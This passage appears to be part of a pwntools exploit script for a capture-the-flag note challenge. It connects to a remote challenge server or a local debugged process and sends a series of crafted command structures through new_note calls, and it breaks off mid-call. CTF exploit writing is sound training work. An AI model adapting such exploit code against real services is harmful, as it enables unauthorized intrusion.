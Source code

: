   ```
  
  if args.REMOTE:
      r = remote('103.163.25.143', 20007)
  else:
      r = process(exe.path)
      GDB()
  
  ### normal 0; re 1; mem 2
  
  cmd = flat(
      0, 
      0, 0,
      0, 1,
      2, 0x201
  )
  new_note(2, 1, 3, cmd, b'y', 1)
  cmd = flat(
      1, 
      0, 0,
      2, 0x200,
      1, 0
  )
  new_note(3, 1, 4, cmd, b'y', 1)
  cmd = flat(
      1, 
      1, 0,
      0, 4,
      1, 0
  )
  new_note(4, 1, 5, cmd, b'y', 1)
  cmd = flat(
      1, 
      1, 0,
      0, 4,
      1, 0
  )
  new_note(5, 1, 6, cmd, b'y', 1)
  cmd = flat(
      1, 
      1, 0,
      0, 4,
      1, 0
  )
  new_note(6, 1, 7, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x28,
      1, 0,
      0, 0
  )
  new_note(7, 1, 8, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x20,
      0, 1,
      0, 0
  )
  new_note(8, 1, 9, cmd, b'y', 1)
  cmd = flat(
      4, 
      2, 0x40,
      0, 1,
      0, 0
  ```